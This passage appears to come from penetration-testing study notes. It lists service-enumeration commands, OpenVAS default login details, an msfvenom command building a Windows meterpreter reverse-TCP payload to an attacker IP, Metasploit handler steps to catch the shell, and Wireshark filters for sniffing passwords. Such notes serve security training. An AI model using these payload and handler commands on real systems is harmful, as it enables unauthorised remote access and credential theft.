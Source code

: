**VNC** (Virtual Network Computing) - Port 5900<br>
vncviewer hostname:port <br>

**Netcat** - Arbitrary Ports<br>
nc hostname port <br>

**POP3** (Post Office Protocol) - Port 110<br>
telnet hostname 110 <br>

**IMAP** (Internet Message Access Protocol) - Port 143<br>
telnet hostname 143 <br>

**LDAP** (Lightweight Directory Access Protocol) - Port 389<br>
ldapsearch -x -H ldap://hostname -b "baseDN"<br>

**SNMP** (Simple Network Management Protocol) - Port 161<br>
snmpwalk -v2c -c community hostname<br>

**SMTP** (Simple Mail Transfer Protocol) - Port 25<br>
telnet hostname 25 or swaks --to email@example.com --server hostname <br>

## 3. System Hacking
https://nvd.nist.gov/vuln/search

**OpenVAS**<br>
Vulnerability scanner
start from Applications -> open browser -> 127.0.0.1:9392 -> admin/password

**To create a Payload**<br>
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 

**To take a reverse TCP connection from windows**<br>
msfdb init && msfconsole <br>
use exploit/multi/handler<br>
set payload windows/meterpreter/reverse_tcp<br>
set LHOST= attacker-IP  <br>
set LPORT= attacker-Port <br>
run<br>

## 4. SNIFFING

### Filtering packets 
**Password Sniffing using Wireshark**<br>
In pcap file apply filter: http.request.method==POST or http.request.method==get(you will get all the post or get request) <br>
Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" <br>
from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.

**To the Find DOS & DDOS**<br>
Go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer<br>
Statistics > Conversations > IPv4 > Packets<br>
To find DOS (SYN and ACK) : tcp.flags.syn == 1  , tcp.flags.syn == 1 and tcp.flags.ack == 0
